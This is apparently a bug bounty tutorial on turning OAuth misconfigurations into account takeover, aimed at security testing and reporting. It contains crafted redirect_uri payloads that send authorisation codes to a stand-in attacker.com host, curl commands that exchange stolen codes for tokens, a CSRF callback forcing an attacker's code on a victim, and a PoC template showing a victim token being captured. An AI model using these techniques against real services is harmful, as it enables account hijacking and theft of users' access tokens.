

> Source: https://bugbounty.info/Chains/OAuth-Misconfig-to-ATO

# OAuth Misconfiguration to Account Takeover

## Why This Chain Works

OAuth is the most commonly misimplemented authentication standard in production apps. The authorisation code is the crown jewel - whoever receives it can exchange it for a token. Three separate misconfigurations each deliver that code somewhere other than the legitimate app: a weak redirect_uri validation ships it to an attacker-controlled server, a missing state parameter lets an attacker bind their own authorisation to the victim's session, and an implicit-flow token bleeds through the Referer header to third-party analytics. Any one of these alone is a critical.

Related: [OAuth Misconfigurations](../Attack-Surface/Web/Authentication/OAuth), [Open Redirect to ATO](../Chains/Open-Redirect-to-ATO), [Subdomain Takeover to OAuth](../Chains/Subdomain-Takeover-to-OAuth)

---

## Attack Flow



---

## Step-by-Step

### 1. Map the OAuth Flow

Intercept a normal login. Capture the authorisation request:

```http
GET /oauth/authorize?
  response_type=code
  &client_id=CLIENT_ID
  &redirect_uri=https://app.target.com/callback
  &scope=openid+email+profile
  &state=abc123randomvalue
  &nonce=xyz789
```

Record: the `redirect_uri`, whether `state` is present, whether `response_type` is `code` or `token`, and the token endpoint.

---

### Variant 1 - Weak redirect_uri Validation

Many authorisation servers validate redirect_uri by prefix rather than exact match. If the registered URI is `https://app.target.com/callback`, the server may accept:

```text
https://app.target.com/callback/../evil   (path traversal)
https://app.target.com/callback%0a        (newline injection)
https://app.target.com/callback?openid    (extra params)
```

Or, if an open redirect exists anywhere on `app.target.com`:

```text
redirect_uri=https://app.target.com/go?url=https://attacker.com/catch
```

The auth server sees the registered domain. Your server receives the code.

**Test for prefix validation:**

```bash
# Try appending a path segment
curl -v "https://idp.target.com/authorize?client_id=ID&redirect_uri=https%3A%2F%2Fapp.target.com%2Fcallback%2F..%2F..%2Fevil&response_type=code&scope=openid"
# If you get a 302 rather than an error, the validation is weak
```

**Exchange the code:**

```bash
curl -X POST https://idp.target.com/oauth/token \
  -d "grant_type=authorization_code" \
  -d "code=STOLEN_CODE" \
  -d "redirect_uri=https://app.target.com/go?url=https://attacker.com/catch" \
  -d "client_id=CLIENT_ID" \
  -d "client_secret=CLIENT_SECRET"
```

---

### Variant 2 - Missing state Parameter (CSRF on OAuth)

The `state` parameter is the CSRF token for the OAuth flow. Without it, you can force a victim to complete an OAuth authorisation that binds to your account.

**Attack flow:**

1. Start an OAuth login on the target as the attacker. Intercept the authorisation URL.
2. Do not complete the authorisation. You now have a `code` pending for your user on the identity provider.
3. Force the victim to visit your authorisation callback URL with your code:

```text
https://app.target.com/callback?code=ATTACKER_CODE
```

1. The app exchanges this code and logs the victim into the attacker's account. Now the attacker has the victim's session logged into the attacker's account - or the app links the victim's existing account to the attacker's OAuth identity.

**Check for missing state:**

```http
GET /oauth/authorize?response_type=code&client_id=ID&redirect_uri=https://app.target.com/callback
```

No `state` parameter sent. If the provider completes the flow without rejecting missing state, the flow is vulnerable.

---

### Variant 3 - Implicit Flow Token in Referer

The implicit flow (`response_type=token`) returns the access token in the URL fragment:

```text
https://app.target.com/callback#access_token=TOKEN&token_type=bearer
```

URL fragments are not sent in HTTP requests, but JavaScript on the page may use the token and then make a navigation or request that includes it. If the page loads third-party resources (analytics, CDN assets, ad pixels), the `Referer` header on those requests may contain the full URL including fragment - depending on browser and Referrer-Policy settings.

**Where to look:**

- Any third-party ``, `<script>`, or `<link>` loaded on the callback page
- Referrer-Policy absent or set to `unsafe-url` / `no-referrer-when-downgrade`
- JavaScript that pushes the fragment into the URL bar with `history.replaceState` before the navigation

Check the callback page's outbound requests in the Network tab. If any request to a third-party domain includes the full callback URL with `#access_token=`, that token is leaked.

---

## State Parameter Checklist

| Check | How to Test |
| --- | --- |
| State is present in auth request | Intercept and inspect |
| State is validated on callback | Submit callback with wrong state value |
| State is single-use | Re-submit same callback URL twice |
| redirect_uri is exact-match validated | Try appending path segments or using open redirect |
| Implicit flow used | Check `response_type=token` in auth request |
| Callback page Referrer-Policy | Check response headers on callback page |

---

## PoC Template for Report

```text
Variant 1 (redirect_uri weak validation):
1. Confirmed open redirect at https://app.target.com/go?url=https://attacker.com
2. Crafted auth URL: [full URL with redirect_uri=https://app.target.com/go?url=https://attacker.com/catch]
3. Victim visits URL, authenticates normally
4. Auth server redirects to: https://app.target.com/go?url=https://attacker.com/catch&code=AUTH_CODE
5. Bounce to: https://attacker.com/catch?code=AUTH_CODE - attacker server logs code
6. Token exchange:
   POST /oauth/token with code=AUTH_CODE, redirect_uri=[same as above]
   Response: {"access_token":"VICTIM_TOKEN","token_type":"bearer"}
7. GET /api/me with Authorization: Bearer VICTIM_TOKEN
   Response: {"email":"victim@victim.com","id":"victim-uuid"}
```

---

## Public Reports

- OAuth redirect_uri bypass for account takeover on Periscope/Twitter - [HackerOne #215381](https://hackerone.com/reports/215381)
- Missing state parameter in OAuth on HackerOne leading to CSRF account linkage - [HackerOne #2418048](https://hackerone.com/reports/2418048)
- OAuth redirect_uri not validated on GitLab - [HackerOne #1828532](https://hackerone.com/reports/1828532)
- Implicit flow token leakage via Referer on Slack - [HackerOne #2526](https://hackerone.com/reports/2526)

---

## Reporting Notes

Name the specific misconfig variant in the title. "OAuth Account Takeover via Redirect URI Validation Bypass" is a better title than "OAuth Issue." Show the full code-exchange step, not just the redirect. Triagers need to see the access token and a confirmed API call as the victim. Distinguish clearly between code theft (Variant 1), CSRF-on-OAuth (Variant 2), and token leakage (Variant 3), since each has a different fix and different CVSS vector.
